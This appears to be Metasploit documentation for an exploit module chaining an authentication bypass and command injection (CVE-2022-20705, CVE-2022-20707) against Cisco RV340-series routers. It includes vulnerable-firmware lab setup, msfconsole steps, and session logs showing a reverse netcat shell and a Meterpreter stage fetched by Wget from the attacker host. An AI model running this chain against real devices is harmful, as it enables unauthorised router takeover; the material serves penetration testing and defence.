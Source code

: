 ## Vulnerable Application

This module exploits two vulnerabilities, an authentication bypass (CVE-2022-20705) and a command injection vulnerability (CVE-2022-20707),
to execute code on Cisco RV160, RV260, RV340, and RV345 Small Business Routers prior to 1.0.03.26 as the
`www-data` user. The command injection occurs in the `upload.cgi` script, where user input in the `data` POST parameter
is passed to `curl` without any sanitization. Additionally, the `sessionid` session cookie can be abused for a path
traversal vulnerability, which can be used to bypass authentication by setting `sessionid` to the path to a valid
file on the target.

This module has been tested against an RV340 device running firmware version 1.0.03.24. 
Firmware version 1.0.03.26 patches these vulnerabilities.

### Installation

Firmware version 1.0.03.24, which is vulnerable to CVE-2022-20705 and CVE-2022-20707, can be downloaded from
https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.24

To install this firmware, follow the following directions:
1. Log into the modem. The default IP address is 192.168.1.1 and the default credentials
   are `cisco` for the username and password.
2. The `administration` option on the left side of the web page will take you to a form
   with a `Manual Upgrade` section.
3. Leave `File Type: ` on the default `Firmware Image` option.
4. Change `Upgrade From:` option to `PC`.
5. Press the `Upgrade` button.
6. Press `Yes` on the message box asking `Are you sure you want to upgrade the firmware right now?`.
7. Wait for router reboot to complete.

## Verification Steps

1. Install the vulnerable firmware
2. Start `msfconsole`
3. Do: `use modules/exploits/linux/http/cisco_rv340_lan`
4. Do: `set lhost <listening ip>`
5. Do: `set rhost <target ip>`
6. Do: `exploit`
7. Verify: You see the message `Exploit successfully executed` confirming the exploit completed
8. Verify: You are the `www-data` user using the `id` command

## Options

## Scenarios

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_netcat payload

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (192.168.1.142:4444 -> 192.168.1.1:55885) at 2023-02-05 10:06:22 -0500
[+] Exploit successfully executed.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Cisco RV340 Router 1.0.03.24 on ARM architecture - reverse_tcp ARMLE Meterpreter payload

```
msf6 > use modules/exploits/linux/http/cisco_rv340_lan
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(linux/http/cisco_rv340_lan) > set lhost 192.168.1.142
lhost => 192.168.1.142
msf6 exploit(linux/http/cisco_rv340_lan) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf6 exploit(linux/http/cisco_rv340_lan) > set target 1
target => 1
msf6 exploit(linux/http/cisco_rv340_lan) > exploit

[*] Started reverse TCP handler on 192.168.1.142:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.142:8080/3b2NfBKR0OS
[*] Client 192.168.1.1 (Wget) requested /3b2NfBKR0OS
[*] Sending payload to 192.168.1.1 (Wget)
[*] Sending stage (934728 bytes) to 192.168.1.1
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Meterpreter session 2 opened (192.168.1.142:4444 -> 192.168.1.1:55950) at 2023-02-05 10:12:37 -0500
[*] Server stopped.

meterpreter > shell
Process 11012 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

